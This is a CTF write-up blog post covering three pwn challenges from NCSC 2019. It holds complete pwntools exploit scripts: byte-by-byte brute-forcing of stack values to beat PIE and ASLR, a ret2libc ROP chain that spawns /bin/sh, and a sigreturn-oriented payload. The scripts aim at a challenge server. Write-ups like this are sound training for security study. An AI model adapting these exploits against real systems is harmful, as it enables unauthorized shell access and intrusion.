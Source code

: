 ```yaml
---
layout: post
title:  "NCSC 2019 - pwn"
author: "Rettila"
tags: NSCS pwn srop stack overflow
---
```


Hi, this post will cover some binary exploitation tasks that we solved during the first edition of the National Cyber Security Congress organized by Securinets.

## Bruter
The binary was PIE enabled as we can see by running `checksec ./bruter`
{% highlight console %}
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
{% endhighlight %}
This protection (PIE) combined to ASLR results in full randomization (or not) of the program's address space.

The first bug is a call to fork function: after a fork, both parent and child will have the same address layout.

The second bug is a call to read in `handle_child` function: the program reads 0x400 bytes of user input but saved rbp is only 0x10 bytes away from our our buffer start.
{% highlight console %}
|           0x00000e5a      ba00040000     mov edx, 0x400
|           0x00000e5f      4889ce         mov rsi, rcx
|           0x00000e62      89c7           mov edi, eax
|           0x00000e64      e817fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x00000e69      90             nop
|           0x00000e6a      c9             leave
\           0x00000e6b      c3             ret
{% endhighlight %}
So, if we are able to overflow the buffer and overwrite rbp and the return address then we have control over rip and the execution flow.

Our goal is to execute `get_shell`
{% highlight console %}
/ (fcn) sym.get_shell 31
|   sym.get_shell ();
|           0x00000da0      55             push rbp
|           0x00000da1      4889e5         mov rbp, rsp
|           0x00000da4      488d3d0d0400.  lea rdi, str.Solved         ; 0x11b8 ; "Solved!!!"
|           0x00000dab      e850fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000db0      488d3d0b0400.  lea rdi, str.bin_bash_2__4_1__4___4 ; 0x11c2 ; "/bin/bash 2>&4 1>&4 <&4"
|           0x00000db7      e864fdffff     call sym.imp.system         ; int system(const char *string)
|           0x00000dbc      90             nop
|           0x00000dbd      5d             pop rbp
\           0x00000dbe      c3             ret
{% endhighlight %}
In order to do so, we need to find a valid rbp and the code base defined by the PIE protection. As stated before, the address space is the same at each connexion.

The solution consists in guessing the two parametres (rbp and rip) one byte at once starting from the first rbp byte:

- if the guessed byte value is correct, the program execution will go on and we will receive `Bye` as an answer and we can move to the next byte.

- if not, then we have no output return because the program crashed or jumped to another code location, we can conclude that the guessed byte value was wrong.

Once we have rip, we can calculate the code base and then jump to `get_shell` function.

{% highlight python %}
from pwn import *

server = '51.254.114.246'
port = 9998

i = 16
p = "A"*i
rbp = ''
while len(rbp)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(p+rbp+chr(j))
        out = r.recvall()
        print 'trying rbp: ',rbp+chr(j)
        if "Bye" in out:
            rbp += chr(j)
            r.close()
            break
        r.close()
print "Leaked rbp: ",rbp.encode('hex')


s1 = p+rbp
rip = ''
while len(rip)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(s1+rip+chr(j))
        out = r.recvall(timeout = 1)
        print 'trying rip: ',rip+chr(j)
        print out
        if "Bye" in out:
            rip += chr(j)
            r.close()
            break
        r.close()

print "rbp",rbp.encode('hex') 
print "rip",rip.encode('hex')

for i in range(0xf):
	r = remote(server,port)
	r.recv()
	get_shell = p64( (u64(rip) & 0xfffffffffffff0000) + (i <<12) + 0xda0)
	payload = s1 + get_shell
	r.sendline(payload)
	try:
		r.sendline('ls')
		print r.recv()
		r.interactive()
	except:
		pass
	r.close()
{% endhighlight %}

## ropper
A classic buffer overflow, we have control over rip after 168 bytes in the vuln function.
ASLR is enabled on the server.
{% highlight console %}
rett@RETTILA:~/ctf/ncsc/pwn$ checksec ropper
[*] '/home/rett/ctf/ncsc/pwn/ropper'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
{% endhighlight %}

We have got some unusual gadgets from the `help_gadgets` function to help us setting our arguments
{% highlight console %}
/ (fcn) sym.help_gadgets 8
|   sym.help_gadgets ();
|           0x00401192      55             push rbp
|           0x00401193      4889e5         mov rbp, rsp
|           0x00401196      5f             pop rdi
|           0x00401197      5e             pop rsi
|           0x00401198      5a             pop rdx
\           0x00401199      c3             ret
{% endhighlight %}
To find out the libc version and base, we started by leaking two adresses of libc using the following payload

`padding + pop rdi , rsi and rdx + 0x1 + write from the GOT table + 0x8 +  vuln address + padding + pop rdi , rsi and rdx + 0x1 + printf from the GOT table + 0x8`

which results in the execution of the following functions:

`write(1,write_got,8) --> call to vuln function again --> write(1,printf_got,8)`

By checking [libc database search][libc_id_link] , we can easily determine libc version and the the system function and `/bin/sh` string offsets from the libc.

Second execution payload will contain:

`padding + pop rdi , rsi and rdx + 0x1 + write from the got table + 0x8 +  vuln address + padding + pop rdi , rsi and rdx ( too lazy to look for pop rdi ) + calculated '/bin/sh' string address + calculated system address`

Too lazy to clean the code, so i put both of the steps in one script

{% highlight python %}
from pwn import *

pop_rdi_rsi_rdx = 0x00401196
vuln = 0x00401259
write_plt = 0x00401040 
write_got = 0x0404020
printf_got = 0x404030

r = remote('51.254.114.246', 3333)
r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(write_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_write = u64(out[len(out)- 8:])

print hex(leak_write)
print out

r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(printf_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

base = leak_printf - 0x055800
system = base + 0x045390
binsh = base + 0x18cd57

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(binsh)
p += p64(0)
p += p64(0)
p += p64(system)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

r.interactive()
r.close()
{% endhighlight %}

## signal
A binary containing very few code that reads user input to the top of the stack and calls for sigreturn (rax set to 0xf).

{% highlight python %}
/ (fcn) entry0 23
|   entry0 ();
|           0x00401000      31c0           xor eax, eax                ; [08] m-r-x section size 36 named LOAD1
|           0x00401002      31ff           xor edi, edi
|           0x00401004      31d2           xor edx, edx
|           0x00401006      b604           mov dh, 4
|           0x00401008      4889e6         mov rsi, rsp
|           0x0040100b      0f05           syscall
|           0x0040100d      31ff           xor edi, edi
|           0x0040100f      6a0f           push 0xf                    ; rax
|           0x00401011      58             pop rax
|           0x00401012      0f05           syscall
|           0x00401014      cd03           int 3
            ;-- rip:
\           0x00401016      c3             ret
{% endhighlight %}

All we need to do is to read the flag at address 0x00402000
{% highlight console %}
0x00402000 36 str.Securinets_Flag_is_in_remote_server
{% endhighlight %}

The supplied input is our constructed sigreturn frame containing a call to write(1, flag address, 50)

{% highlight python %}
from pwn import *

context.clear(arch="amd64")

#~ r = remote('51.254.114.246',2222)
r = process('./pwn_c')

frame = SigreturnFrame(kernel="amd64") 
frame.rax = 1 
frame.rdi = 1 
frame.rsi = 0x00402000 
frame.rdx = 50 
frame.rsp = 0x41414141
frame.rip = 0x00401012 
payload = str(frame)
r.send(payload)
print r.recvall(timeout=1)
{% endhighlight %}

[libc_id_link]:https://libc.blukat.me/
